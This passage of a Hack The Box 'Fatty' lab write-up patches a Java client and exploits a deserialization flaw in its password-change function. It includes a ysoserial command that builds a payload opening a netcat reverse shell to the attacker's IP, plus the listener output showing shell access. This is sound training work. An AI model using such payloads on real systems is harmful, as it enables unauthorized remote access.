 And change the GUI to actually call the method.

```java
pwChangeButton.addActionListener(new ActionListener() {
          public void actionPerformed(ActionEvent e) {
            String username = "chronos";
            String password = ClientGuiTest.this.textField_2.getText();
            try {
              ClientGuiTest.this.invoker.changePW(username, password);
            } catch (Exception ex) {
              return;
            }
          }
        });
```

Now we again have to patch the client. You can find the fully patched client, as well as the modified source code and a script to quickly patch the client on my [GitHub](https://github.com/chr0x6eos/HTB/tree/master/Fatty).

### Exploiting the deserialization vulnerability

Now that we know that we have a deserialization vulnerability in the ChangePassword functionality, we simply have to create a java-deserialization-payload. For this we can use [ysoserial](https://github.com/frohoff/ysoserial). Let us assume that netcat is installed on the system. With this we can generate a payload using following command:

```bash
root@darkness:~# java -jar ysoserial.jar CommonsCollections5 'nc 10.10.14.8 443 -e /bin/sh'| base64 -w 0
<BASE-64 PAYLOAD>
```

![Reverse-shell payload](/assets/htb/Fatty/client-revshell.png)

Now we just have to enter the base64 payload into the password field and start our listener.

```bash
root@darkness:~# nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.174.
Ncat: Connection from 10.10.10.174:36287.
whoami
qtc
```
